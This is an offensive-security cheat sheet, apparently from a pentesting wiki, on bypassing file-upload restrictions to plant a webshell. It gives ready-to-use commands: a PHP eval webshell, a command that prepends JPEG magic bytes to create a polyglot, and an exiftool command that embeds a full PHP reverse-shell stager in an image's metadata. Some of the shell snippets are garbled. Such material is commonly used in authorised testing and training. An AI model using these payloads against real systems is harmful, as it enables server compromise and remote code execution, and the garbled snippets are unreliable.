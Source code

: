 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File Uploads

## Absent Validation

Enumerate the technologies used on the server and upload a same-language webshell. This can be done using a tool such as [whatweb](../../../tools/tools/web/whatweb.md) and/or fuzz the `index` extension with a tool like [ffuf](../../../tools/tools/web/dirbusting/fuff.md).&#x20;

{% tabs %}
{% tab title="WhatWeb" %}
```bash
whatweb <URL>
```
{% endtab %}

{% tab title="Fuff" %}
{% code overflow="wrap" %}
```bash
ffuf -u <URL>/index.FUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -c -ac
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Client-side Filters

### Front-end Validation

Any code that runs on the client-side is under the client's control. For example, if the `accept` HTML attribute is used to filter uploads, it can be easily modified using the browser's developer tools. In the example below, we can remove the validation altogether (`onchange=""`) or add the required extension to the list (`.py`).

<figure><img src="../../../.gitbook/assets/file_uploads_onchange.png" alt=""><figcaption><p>Figure 1: Modifying front-end validation.</p></figcaption></figure>

## Server-side Filters

### Type Filters

Two common methods for file content validation are checking the `Content-Type` header and/or checking the actual file content.

#### Content-Type Header

Change the `Content-Type` header to an allowed content type before it reaches the server.

<figure><img src="../../../.gitbook/assets/file_uploads_mime_type_1.png" alt=""><figcaption><p>Figure 2: The <code>text/x-python</code> content type is not allowed.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_mime_type_2.png" alt=""><figcaption><p>Figure 3: Changing the header to <code>image/jpeg</code> type bypassed the filter.</p></figcaption></figure>

#### MIME Type

Polyglot files, i.e., files that different application interpret in different ways, can be created to trick the application. This can be achieve by modifying the file's **magic bytes**, aka _headers_ or _signatures_. For instance, JPG's [magic bytes](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) are `FFD8 FFE0` (Figure 4).

<figure><img src="../../../.gitbook/assets/file_uploads_magic_bytes.png" alt=""><figcaption><p>Figure 4: Checking the magic bytes of a JPG image.</p></figcaption></figure>

The operating system checks the above sequence and recognizes this file as a JPEG image.

{% code overflow="wrap" %}
```bash
file --mime-type google_logo.jpg
google_logo.jpg: image/jpeg
```
{% endcode %}

We can add this sequence in front of a malicious non-JPEG file to trick the OS/application that it is really a JPEG file.

```bash
# check file's content
cat webshell.php
<?php eval(['cmd'];?>
# check file's type
file --mime-type webshell.php
webshell.php: text/x-php
# append JPG's magic bytes to the php code
echo -e "\xFF\xD8\xFF\xE0<?php eval($_GET['cmd'];?>" > polyglot.php
# check file's content
cat polyglot.php
����<?php eval(['cmd'];?>
# check file's type
file polyglot.php
polyglot.php: JPEG image data
```

This can be also be done using tools such as [`hexeditor`](https://www.rogoyski.com/adam/programs/hexedit/). We need to add the required bytes at the start of the file, and then modify them (Figure 5 & 6).

```bash
# added 4 bytes at the start of the file
cat webshell.php
AAAA<?php eval(['cmd'];?>
# open file in hexeditor
hexeditor webshell.php
```

<figure><img src="../../../.gitbook/assets/file_uploads_hexedit_1.png" alt="" width="563"><figcaption><p>Figure 5: Opening the file with hexeditor.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_hexedit_2.png" alt=""><figcaption><p>Figure 6: Modifying the file's magic bytes.</p></figcaption></figure>

### Blacklists

Fuzz for allowed extensions:

1. Upload an allowed file and capture the request.
2. Modify the file extension and save the request as file (Figure 7).
3. Fuzz it with [fuff](../../../tools/tools/web/dirbusting/fuff.md) (Figure 8).

<figure><img src="../../../.gitbook/assets/file_uploads_fuzz_req.png" alt=""><figcaption><p>Figure 7: Modifying the HTTP request andexporting it as a file.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_fuff.png" alt=""><figcaption><p>Figure 8: Fuzzing the file extensions with ffuf.</p></figcaption></figure>

### Whitelists

#### Double & Reverse Extensions

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar`.  Others, might require for the file name to end with an allowed extension so we will have to reverse them (`webshell.phar.jpg`) (Figure 9).

<figure><img src="../../../.gitbook/assets/file_uploiads_double_extensions.png" alt=""><figcaption><p>Figure 9: Bypassing the extension filter using double extensions.</p></figcaption></figure>

In case we can use the **reverse double extension** method, the file will be upload but it might not be able to execute. Instead it can be served as a direct download (Figure 10) or as a page (Figure 11).

<figure><img src="../../../.gitbook/assets/file_uploads_dl.png" alt=""><figcaption><p>Figure 10: The webshell script treated as a direct download.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/file_uploads_mime_type_3.png" alt=""><figcaption><p>Figure 11: The webshell script served as a file.</p></figcaption></figure>

#### Null Byte Injection

We can manipulate the file-handling system by leveraging the fact that the null byte (`\x00`) marks the end of a string in various programming languages. By **injecting a URL-encoded null byte** after the script's extension (`.php`) (Figure 12), the server might interpret it as the end of the string and ignore what comes after it, in this case, the `.png` extension. However, when the server later processes the file, it could read it as a PHP script and execute it.

<figure><img src="../../../.gitbook/assets/file_uploads_null_byte.png" alt=""><figcaption><p>Figure 12: Injecting a null byte in the file's name.</p></figcaption></figure>

To access the file only the part before the null byte might be called, i.e., `revshell.php`.

## Metadata Injection

We can inject our payload into an image's metadata (Figure 13) and then call the image via an LFI vulnerability ([source](https://spencerdodd.github.io/2017/03/05/dvwa\_file\_upload/)).

{% code overflow="wrap" %}
```bash
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/file_uploads_metadata_injection.png" alt=""><figcaption><p>Figure 13: Injection a payload into an image's metadata.</p></figcaption></figure>
